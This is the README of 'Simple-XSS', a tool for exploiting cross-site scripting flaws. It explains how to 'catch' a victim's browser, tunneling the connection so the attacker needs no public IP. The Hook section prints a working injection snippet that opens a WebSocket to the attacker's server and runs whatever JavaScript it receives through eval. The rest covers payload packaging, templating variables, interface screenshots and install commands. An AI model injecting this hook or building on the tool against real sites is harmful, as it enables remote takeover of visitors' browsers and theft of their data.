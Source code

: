 # Simple-XSS

<p align="center">
  <img src="res/big_logo.png"  alt="logo"/>
</p>

<a href="https://github.com/CrazyProger1/Simple-XSS/releases/download/V0.1/Simple-XSS-Windows-x64.zip"><img alt="GitHub all releases" src="https://img.shields.io/github/downloads/CrazyProger1/Simple-XSS/total"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/blob/master/LICENSE"><img alt="GitHub" src="https://img.shields.io/github/license/CrazyProger1/Simple-XSS"></a>
<a href="https://github.com/CrazyProger1/Simple-XSS/releases/latest"><img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/CrazyProger1/Simple-XSS"></a>

Simple-XSS is a multiplatform cross-site scripting (XSS) vulnerability exploitation tool. This application will help you
create a hook that can easily
and reliably catch a client by downloading a payload to their browser and executing it. You don't even need a white IP
for this because the application will take care of tunneling the connection between you and the victim.

## Usage

> Use `--help` argument to get help.
![commandline help](docs/help.png)

### Hook

> _Hooks folder: [hooks](hooks)_

**Hook** is an HTML code snippet designed to be embedded in a vulnerable XSS form. It looks like:

```html

<script>c = new WebSocket('{{environment.public_url}}');
c.onmessage = (e) => eval(e.data);</script>
```

**NOTE:** _As you can see here is a built-in variable: {{environment.public_url}}. You can read more about
this below._

This is a [default](hooks/default) hook. When it's embedded in the vulnerable form, it downloads the JS
code ([payload](#payload)) via
WebSockets
protocol from the server and
executes it using [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Hook has the following structure:

```
|
+-- hook_folder
    |
    +-- hook.html
    |
    +-- package.toml
```

**hook.html** - main file, contains HTML code that can be embedded in vulnerable form.

**package.toml** - metadata file, contains data about hook such as name, description, author and version.

### Payload

> _Payloads folder: [payloads](payloads)_

**Payload** is an arbitrary JS code that loaded by hook on a vulnerable page and executed
with [eval](https://developer.mozilla.org/ru/docs/Web/JavaScript/Reference/Global_Objects/eval).

Payload has the following structure:

```
|
+-- payload_folder
    |
    +-- payload.js
    |
    +-- package.toml
    |
    +-- init.py
```

**payload.js** - main file, contains arbitrary JS code.

**package.toml** - metadata file, contains data about payload such as name, description, author and version.

**init.py** - python file, imported when loading payload. Allows you to interact with the client side of payload
(payload.js) via WebSockets protocol.

### Templating

**Built-in objects** is an objects passed into hook & payload main files
using [Jinja](https://jinja.palletsprojects.com/)
templating engine. It contains additional information that may be needed when loading a hook or payload.

#### Environment

- public_url - public address of WebSocket server

#### Metadata

**package** - hook or payload

- **name** - name of package
- **author** - package author
- **version** - version of package
- **description** - package description

If you need to use some variable, just use such construction: {{object.variable}}.
For example:

```
alert('{{metadata.name}} - V{{metadata.version}}')
```

The provided payload code snippet will display an alert dialog showcasing the name and version of the payload.

## Interface

> _Thanks to the use of the [Python Flet framework](https://flet.dev/), the application works equally well both in the
browser and in the graphical interface._

### Graphical

![GUI](docs/GUI.png)

### WEB

![WEB](docs/WEB.png)

### Command-Line

![CLI](docs/CLI.png)

## Installation

### Windows

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r windows_requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

### Linux

First you need to clone the repository:

```commandline
git clone https://github.com/CrazyProger1/Simple-XSS
```

Then go to the folder & install requirements:

```commandline
cd Simple-XSS
pip install -r linux_requirements.txt
```

And finally you can run it:

```commandline
python main.py
```

## License

Simple-XSS is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.
